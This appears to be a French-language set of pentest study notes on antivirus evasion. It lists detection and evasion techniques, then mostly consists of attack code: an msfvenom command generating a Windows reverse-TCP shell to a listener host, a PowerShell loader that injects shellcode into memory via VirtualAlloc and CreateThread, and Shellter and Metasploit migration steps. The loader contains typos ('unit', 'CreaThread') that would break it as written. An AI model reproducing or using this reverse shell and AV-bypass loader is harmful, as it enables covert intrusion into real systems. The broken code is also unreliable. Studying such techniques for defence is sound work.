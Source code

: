 # AV Evasion
Type de dectection:
- Signature-Based Detection
- Heuristic-Based Detection
---

On-Disk evasion 
Les techniques utiliser pour obfusquer les fichiers malveillant stocker sur la machine
- Packers
- Obfuscators
- Crypters
- Software Protectors

In-Memory evasion
Les techniques pour bypasser l'anti-virus
- Remote Process Memory Injection
- Reflective DLL Injection
- Process Hollowing
- Inline Hooking

`PSHIn-memoryInjection.ps1`

```sh
msfvenom --platform windows -a x64 -p windows/x64/shell_reverse_tcp LPORT=9001 LHOST=192.168.45.128 -f powershell
```

```c
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, unit dwSize, uint flAllocationType, uint flProtect);

[DllImport("kernel32.dll")]
public static extern IntPtr CreaThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

$winFunc = 
	Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;

[Byte[]]
[Byte[]]$sc = "place your shellcode here"

$size = 0x1000

if ($sc.Length -gt 0x1000) { $size = $sc.Length };

$x = $winFunc::VirtualAlloc(0, $size, 0x3000, 0x40);

for ($i = 0; $i -le ($sc.Length - 1); $i++) { $winFunc::memset([IntPtr]($x.ToInt32()+ $i), $sc[$i], 1) };

$winFunc::CreaThread(0,0,$x,0,0,0); for(;;) { Start-sleep 60 };
```

---
Utiliser shellter

```
sudo apt install shellter
```

```
msf> set AutoRunScript post/windows/manage/migrate
```